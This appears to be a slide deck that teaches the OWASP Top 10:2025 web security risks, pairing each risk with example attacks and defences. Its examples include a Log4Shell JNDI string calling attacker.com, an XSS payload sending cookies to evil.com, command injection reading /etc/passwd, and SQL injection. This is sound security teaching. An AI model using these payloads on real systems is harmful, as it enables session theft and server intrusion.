


# OWASP Top 10:2025

### The Ten Most Critical Web Application Security Risks

---
layout: default
---

# What is OWASP?

The **Open Web Application Security Project** is a non-profit foundation that works to improve software security.

The **OWASP Top 10** is a consensus-based, data-driven list of the most critical security risks to web applications — updated to reflect real-world threat data.

> *"Using the OWASP Top 10 is perhaps the most effective first step towards changing the software development culture into one that produces more secure code."*

---
layout: center
---


| # | ID | Risk |
|---|-----|------|
| 1 | A01 | Broken Access Control |
| 2 | A02 | Security Misconfiguration |
| 3 | A03 | Software Supply Chain Failures |
| 4 | A04 | Cryptographic Failures |
| 5 | A05 | Injection |
| 6 | A06 | Insecure Design |
| 7 | A07 | Authentication Failures |
| 8 | A08 | Software or Data Integrity Failures |
| 9 | A09 | Security Logging & Alerting Failures |
| 10 | A10 | Mishandling of Exceptional Conditions |

---
layout: cover
---

# A01 - Broken Access Control

---
layout: default
---

# Broken Access Control — What Is It?

Access control enforces that users **can only do what they are permitted to do**.

Broken access control occurs when these restrictions are **missing, bypassed, or incorrectly implemented**.

**Found in 100% of tested applications** — the #1 risk for 2025.

Common forms:
- Insecure Direct Object References (IDOR): accessing other users' data by changing an ID
- Force browsing to privileged pages
- CORS misconfiguration exposing APIs to untrusted origins
- JWT manipulation to elevate privileges

---
layout: default
---

# Broken Access Control — How Attacks Work

```http
# Attacker changes account ID in the URL
GET /app/accountInfo?acct=123456  → attacker's account
GET /app/accountInfo?acct=654321  → victim's data ✓

# Force browsing to admin endpoint
GET /app/admin_getappInfo  → exposed without auth check
```

```bash
# Frontend JS blocks access — backend does not
curl https://example.com/app/admin_getappInfo
# Returns admin data — no server-side check!
```

All access control on the **client side only** is trivially bypassed.

---
layout: two-cols
---

# Broken Access Control — Why It's Bad

**Impact**
- Unauthorized data access or modification
- Account takeover
- Privilege escalation to admin
- Full data breach of all user records
- Business logic abuse

Over **1.8 million occurrences** found across tested applications in 2025 data.

::right::

**Defences**
- Deny by default — enforce on the **server side**
- Implement access control once and reuse across the app
- Enforce record ownership — users should only access their own data
- Invalidate sessions server-side after logout
- Use short-lived JWTs; revoke via OAuth standards
- Rate-limit API endpoints
- Log and alert on access control failures

---
layout: cover
---

# A02 - Security Misconfiguration

---
layout: default
---

# Security Misconfiguration — What Is It?

A system, application, or cloud service is **set up incorrectly from a security perspective**.

Found in **100% of tested applications** with an average incidence rate of 3%.

Common examples:
- Default credentials left unchanged (admin/admin)
- Unnecessary features, ports, or services enabled
- Detailed stack traces returned to users
- Cloud storage buckets unintentionally public
- Missing security headers
- Debug mode enabled in production

---
layout: default
---

# Security Misconfiguration — How Attacks Work

```bash
# Attacker enumerates directories (listing not disabled)
GET /src/  → lists compiled Java files → downloads & decompiles

# Default admin credential login
curl -X POST /admin/login -d "user=admin&password=admin"
# → Full application takeover

# Stack trace exposure
GET /app?id=INVALID
# → Returns: java.sql.SQLException: at com.example... (reveals table names)
```

Attackers **actively scan** for exposed admin consoles, default credentials, and misconfigured cloud services.

---
layout: two-cols
---

# Security Misconfiguration — Why It's Bad


**Impact**
- Full server or application takeover
- Sensitive data or source code disclosure
- Lateral movement through the environment
- Regulatory fines (e.g. GDPR for exposed S3 buckets)

**Real examples:**
- Exposed AWS S3 buckets — millions of records leaked
- Debug consoles accessible in production

::right::

**Defences**
- Automate hardening: identical Dev/QA/Prod configs, different credentials
- Remove all unused features, sample apps, default accounts
- Never expose stack traces to users — use friendly error pages
- Send security headers (CSP, HSTS, X-Frame-Options)
- Use short-lived credentials and role-based access — never embed static keys
- Disable directory listing
- Segment architecture with firewalls and ACLs

---
layout: cover
---

# A03 - Software Supply Chain Failures

---
layout: default
---

# Software Supply Chain Failures — What Is It?

Breakdowns in the process of **building, distributing, or updating software** — including vulnerabilities in third-party dependencies, tools, and CI/CD pipelines.

The **#1 community-ranked risk** in 2025, with the highest average incidence rate (5.72%).

Evolved from "Using Components with Known Vulnerabilities" — now covers the entire supply chain.

Examples:
- Outdated libraries with known CVEs
- Malicious packages published to npm/PyPI
- Compromised build tools or CI/CD pipelines
- Untrusted container images

---
layout: default
---

# Software Supply Chain Failures — How Attacks Work

**SolarWinds (2019):** Attacker injected malware into a trusted software update — ~18,000 organisations compromised.

**Bybit (2025):** $1.5 billion stolen via a supply chain attack in wallet software that only triggered when the target wallet was used.

**npm Worm (2025):** Self-propagating worm seeded malicious versions into 500+ popular npm packages, exfiltrating secrets and spreading via stolen npm tokens.

```json
// Log4Shell (CVE-2021-44228)
// A single vulnerable log4j dependency in thousands of apps
// allowed remote code execution via a crafted log message
{ "username": "${jndi:ldap://attacker.com/exploit}" }
```

---
layout: two-cols
---

# Software Supply Chain Failures — Why It's Bad

 

**Impact**
- Remote code execution across all users of a library
- Mass credential theft
- Nation-state level compromises
- Ransomware deployment
- Extremely wide blast radius — one package can affect millions

::right::

**Defences**
- Maintain a **Software Bill of Materials (SBOM)**
- Continuously scan with tools like OWASP Dependency-Track, `npm audit`
- Pin dependency versions; upgrade deliberately
- Use signed packages from official sources only
- Harden CI/CD: separation of duties, MFA, access control
- Use staged rollouts — don't update everything simultaneously
- Track all changes to build tooling, registries, and repos
- Treat developer machines as part of the attack surface

---
layout: cover
---

# A04 - Cryptographic Failures

---
layout: default
---

# Cryptographic Failures — What Is It?

Failures related to **missing, weak, or incorrectly implemented cryptography** — exposing sensitive data.

Moved down to #4 (from #2 in 2021), with **over 1.6 million occurrences** in the data.

Common issues:
- Transmitting data over HTTP instead of HTTPS
- Using outdated algorithms: MD5, SHA-1, DES, ECB mode
- Storing passwords without proper hashing (bcrypt/Argon2)
- Hard-coded cryptographic keys
- Keys checked into source control
- Predictable random number generators
- No encryption at rest for sensitive data

---
layout: default
---

# Cryptographic Failures — How Attacks Work

```
# Scenario 1: HTTPS downgrade on an insecure network
Attacker intercepts HTTP traffic → steals session cookie → hijacks session

# Scenario 2: Weak password hashing
SELECT password FROM users WHERE id = 1;
→ "5f4dcc3b5aa765d61d8327deb882cf99"  (MD5 of "password")
→ Rainbow table instantly cracks it
```

```python
# Scenario 3: Insecure random number for session tokens
import random
token = random.randint(0, 1000000)  # Predictable! Not cryptographically secure
```

---
layout: two-cols
---

# Cryptographic Failures — Why It's Bad

 

**Impact**
- Credential theft at scale
- Man-in-the-middle attacks
- Regulatory penalties (PCI DSS, GDPR)
- Loss of trust
- Financial fraud via intercepted transactions

::right::

**Defences**
- Enforce HTTPS everywhere; use HSTS
- Use TLS 1.2+ with forward secrecy
- Hash passwords with **Argon2, bcrypt, or scrypt** (never MD5/SHA-1)
- Encrypt sensitive data at rest
- Store keys in an HSM or secrets manager — **never in code**
- Use `crypto.randomBytes()` (Node.js) or equivalent CSPRNG
- Disable caching for sensitive responses
- Prepare for **Post-Quantum Cryptography** (PQC) — NIST standards published 2024

---
layout: cover
---

# A05 - Injection

---
layout: default
---

# Injection — What Is It?

Injection flaws allow **untrusted user input to be interpreted as commands** by an interpreter (database, OS, browser, LLM).

The most CVE-heavy category: **62,445 CVEs** across 37 CWEs. Found in **100% of tested applications**.

Types include:
- **SQL Injection** — manipulating database queries
- **Cross-Site Scripting (XSS)** — injecting scripts into web pages
- **OS Command Injection** — running system commands
- **LDAP, NoSQL, ORM, Expression Language** injection
- **Prompt Injection** — a new risk for LLM-based applications

---
layout: default
---

# Injection — How Attacks Work

```java
// SQL Injection: string concatenation
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
// Attacker sends: ' OR '1'='1
// Full query: SELECT * FROM accounts WHERE custID='' OR '1'='1'
// → Returns ALL accounts
```

```javascript
// XSS: unsanitized output in HTML
res.send(`<p>Hello ${req.query.name}</p>`);
// Attacker sends: <script>document.location='http://evil.com?c='+document.cookie</script>
```

```java
// OS Command Injection
String cmd = "nslookup " + request.getParameter("domain");
Runtime.getRuntime().exec(cmd);
// Attacker sends: example.com; cat /etc/passwd
```

---
layout: two-cols
---

# Injection — Why It's Bad

 

**Impact**
- Full database exfiltration or deletion
- Authentication bypass
- Remote code execution on the server
- Cookie/session theft via XSS
- Data manipulation and fraud

SQL injection alone has 14,000+ CVEs; XSS has 30,000+.

::right::

**Defences**
- Use **parameterised queries / prepared statements** — never concatenate user input
- Use an ORM carefully — even ORMs can be misused
- Validate and sanitise all input server-side
- Encode output contextually (HTML, JS, CSS, URL)
- Apply Content Security Policy (CSP) headers
- Use SAST/DAST tools in your CI/CD pipeline
- Run with the principle of least privilege on DB accounts

---
layout: cover
---

# A06 - Insecure Design

---
layout: default
---

# Insecure Design — What Is It?

Security flaws baked in at the **design and architecture level** — not just bad implementation, but **missing security controls from the start**.

A secure design can still have implementation bugs. An **insecure design cannot be fixed by perfect code** — the controls were never planned.

This category covers:
- Missing threat modelling
- Flawed business logic (e.g. no fraud checks)
- No resource or rate limits by design
- Insufficient data segregation between tenants
- Insecure password-recovery flows (e.g. security questions)

---
layout: default
---

# Insecure Design — How Attacks Work

**Scenario 1:** A credential recovery flow uses "security questions" — easily guessed or researched from social media. No safe alternative designed in.

**Scenario 2:** A cinema booking system has no fraud controls. An attacker books 600 seats across all cinemas simultaneously using a script, causing massive revenue loss.

**Scenario 3:** A retail site has no bot protection by design — scalpers buy all high-demand stock within seconds of release, damaging reputation and genuine customers.

These are **design failures**, not code bugs. The solution must come at requirements and architecture stage.

---
layout: two-cols
---

# Insecure Design — Why It's Bad

 

**Impact**
- Business logic abuse and financial loss
- No protection against automated attacks
- Data privacy failures
- Trust and reputational damage
- Fundamental architectural re-work needed to fix

::right::

**Defences**
- Perform **threat modelling** on all critical features
- Follow a **Secure Development Lifecycle (SDL)**
- Use secure design patterns and reference architectures
- Write misuse cases alongside use cases in user stories
- Integrate security into requirements, not just testing
- Tier separation, tenant segregation, rate limiting — by design
- Leverage OWASP SAMM to mature your SDL process

---
layout: cover
---

# A07 - Authentication Failures

---
layout: default
---

# Authentication Failures — What Is It?

When an attacker can **trick a system into recognising an invalid or incorrect identity as legitimate**.

Previously named "Identification and Authentication Failures" — maintains its position at #7 with **36 CWEs** mapped.

Common weaknesses:
- No protection against credential stuffing or brute force
- Allowing known-breached passwords ("Password1", "admin")
- Missing or weak multi-factor authentication
- Plain-text or weakly hashed password storage
- Session IDs exposed in URLs
- Sessions not invalidated on logout or timeout
- Hard-coded credentials in code

---
layout: default
---

# Authentication Failures — How Attacks Work

**Credential Stuffing:** Attacker uses a breached list of username/password pairs and tries them on your app.

**Hybrid Password Spray (2025):** Attacker increments leaked passwords — `Winter2025` → `Winter2026`, `ILoveMyDog6` → `ILoveMyDog7` — massively effective against users who rotate minimally.

**Session Hijacking:** User logs into an app on a public computer and closes the browser tab, but the session remains active. Another person on the same machine accesses the account.

**SSO Session Leak:** Logging out of one SSO-connected app doesn't log out the others — attacker on the same machine retains access.

---
layout: two-cols
---

# Authentication Failures — Why It's Bad

 

**Impact**
- Account takeover
- Unauthorised access to personal and financial data
- Privilege escalation to admin accounts
- GDPR/regulatory violations
- Reputational damage

::right::

**Defences**
- Enforce **multi-factor authentication (MFA)**
- Check new passwords against known-breached credential lists (e.g. HaveIBeenPwned)
- No default or hard-coded credentials
- Use a server-side session manager with high-entropy session IDs
- Invalidate sessions on logout, timeout, and password change
- Rate-limit and increasingly delay failed login attempts
- Follow NIST 800-63b for password policy (stop forced rotation)
- Validate JWT `aud`, `iss` and scope claims

---
layout: cover
---

# A08 - Software or Data Integrity Failures

---
layout: default
---

# Software or Data Integrity Failures — What Is It?

Failing to **verify the integrity of software, code, data artifacts, or updates** — allowing untrusted content to be treated as trusted.

Distinct from A03 (supply chain): A08 focuses on **in-app trust assumptions** — accepting unverified serialised data, unsigned updates, or CDN-hosted scripts without integrity checks.

Examples:
- Auto-update mechanisms that don't verify signatures
- Insecure deserialization of user-supplied data
- Including JavaScript from CDNs without Subresource Integrity (SRI) hashes
- CI/CD pipelines that pull unverified artifacts

---
layout: default
---

# Software or Data Integrity Failures — How Attacks Work

**Unsigned firmware:** Router downloads and applies firmware updates without verifying the signature — attacker serves malicious firmware.

**Insecure Deserialization:**
```java
// React app passes serialized state to Spring Boot
// Attacker spots "rO0..." (Java object base64) in the request
// Modifies the serialized payload to achieve Remote Code Execution
```

**SolarWinds / CodeCov style:** A trusted build tool injects malicious code into your artifact — all downstream users receive compromised software automatically.

**Bybit (2025):** Wallet software supply chain attack only triggered under specific conditions, bypassing testing.

---
layout: two-cols
---

# Software or Data Integrity Failures — Why It's Bad

 

**Impact**
- Remote code execution on application servers
- Malicious code delivered to all users
- Session hijacking via DNS/CDN compromise
- Loss of data integrity across all records
- Extremely difficult to detect and remediate

::right::

**Defences**
- Use **digital signatures** to verify all software and data
- Add **Subresource Integrity (SRI)** hashes to all CDN-hosted scripts
- Never deserialise untrusted data without integrity verification
- Review CI/CD code changes before promotion to production
- Ensure proper segregation and access control in build pipelines
- Only consume trusted repositories — consider internal mirrors for high-risk profiles
- Disable or sandbox deserialization of user-supplied serialized objects

---
layout: cover
---

# A09 - Security Logging & Alerting Failures

---
layout: default
---

# Security Logging & Alerting Failures — What Is It?

**Without logging, monitoring, and alerting — attacks cannot be detected or responded to.**

Remains at #9, with a name update to emphasise **alerting** as well as logging. Community-voted into the list — represents a critical but under-measured risk.

A system is vulnerable when:
- Failed logins or high-value transactions are not logged
- Logs are not monitored for suspicious patterns
- Alerting thresholds are absent or unconfigured
- Log files are stored only locally (not backed up)
- Penetration tests don't trigger alerts
- Sensitive data (PII) is accidentally logged
- Log data is not properly encoded (log injection risk)
- Too many false-positive alerts cause alert fatigue

---
layout: default
---

# Security Logging & Alerting Failures — How Attacks Work

**Children's health plan (real breach):** An attacker modified **3.5 million children's health records** over **7 years** — undetected because there was no monitoring or logging in place. An external party eventually reported the breach.

**Indian airline:** Data breach affecting **millions of passengers** — passport and credit card data compromised at a third-party cloud provider. The airline wasn't notified by the provider for some time.

**European airline (GDPR):** Payment vulnerabilities exploited to harvest **400,000 customer payment records**. Fined **£20 million** by the regulator.

In all cases: early detection via logging and alerting would have drastically reduced the impact.

---
layout: two-cols
---

# Security Logging & Alerting Failures — Why It's Bad

 

**Impact**
- Breaches go undetected for months or years
- Large-scale data theft at low risk to the attacker
- Regulatory fines and legal liability
- No audit trail for forensic investigation
- Inability to respond or recover quickly

::right::

**Defences**
- Log all logins (successful and failed), access control failures, and transactions
- Encode log data properly to prevent log injection (CWE-117)
- Never log sensitive data: passwords, PII, payment card numbers
- Centralise logs; use retention policies and integrity controls
- Set meaningful alert thresholds — avoid alert fatigue with tuning
- Use an incident response playbook (NIST 800-61)
- Consider honeytokens as near-zero false-positive trip wires
- Use SIEM or ELK stack for correlation and dashboards

---
layout: cover
---

# A10 - Mishandling of Exceptional Conditions

---
layout: default
---

# Mishandling of Exceptional Conditions — What Is It?

A **new category for 2025** — when programs fail to **prevent, detect, and respond** to unusual and unpredictable situations, creating security vulnerabilities.

Covers 24 CWEs. Replaces SSRF from the 2021 list.

Root causes:
- Missing or incomplete input validation
- Late/high-level error handling rather than at the source
- Unexpected environmental states (memory, privileges, network)
- Inconsistent exception handling across the codebase
- Exceptions that are silently swallowed
- Failing open (granting access when an error occurs)
- Exposing sensitive system details in error messages

---
layout: default
---

# Mishandling of Exceptional Conditions — How Attacks Work

**Resource exhaustion (DoS):**
```java
// Upload handler catches exceptions but never releases resources
// Each exception leaves file handles open
// Eventually: all resources exhausted → application unavailable
```

**Sensitive data in errors:**
```sql
-- Error returned to user:
-- "java.sql.SQLException: Table 'users_v2' doesn't exist at URL jdbc:mysql://10.0.1.5:3306/prod"
-- Attacker now knows: DB type, IP address, DB name, table name
-- → Used to craft a targeted SQL injection attack
```

**Financial state corruption:**
```
Transaction: Debit account → Credit destination → Log
If a network error occurs mid-transaction and there's no rollback:
→ Account debited, destination never credited
→ Or: race condition allows multiple credits from one debit
```

---
layout: two-cols
---

# Mishandling of Exceptional Conditions — Why It's Bad

 

**Impact**
- Denial of service via resource exhaustion
- Sensitive system details leaked to attackers
- Financial fraud via incorrect transaction states
- Authentication/authorization bypasses ("fail open")
- Application crashes and unpredictable behaviour

::right::

**Defences**
- Catch exceptions close to where they occur — handle meaningfully
- Always **fail closed**: roll back partial transactions completely
- Show users friendly error messages — log detailed errors server-side only
- Use a **global exception handler** as a safety net
- Apply rate limiting, resource quotas, and throttling everywhere
- Centralise error handling — one consistent approach across the app
- Validate all inputs strictly at system boundaries
- Use observability tooling to detect repeated error patterns

---
layout: center
---

# Summary: The OWASP Top 10:2025



---
layout: center
---

# Summary: The OWASP Top 10:2025



---
layout: default
---

# Key Takeaways

**Shift Left** — address security at requirements, design, and development — not just testing.

**Defence in Depth** — no single control is enough; layer multiple defences.

**Assume Breach** — log everything, alert fast, have an incident response plan.

**Stay Updated** — the threat landscape changes; subscribe to vulnerability feeds and keep dependencies current.

**Use the OWASP Resources:**
- [OWASP Top 10:2025](https://owasp.org/Top10/2025/) — full details and cheat sheets
- [OWASP ASVS](https://owasp.org/www-project-application-security-verification-standard/) — verification standard
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) — practical implementation guides

---
layout: end
---

# OWASP Top 10:2025

*Source: [owasp.org/Top10/2025](https://owasp.org/Top10/2025/)*
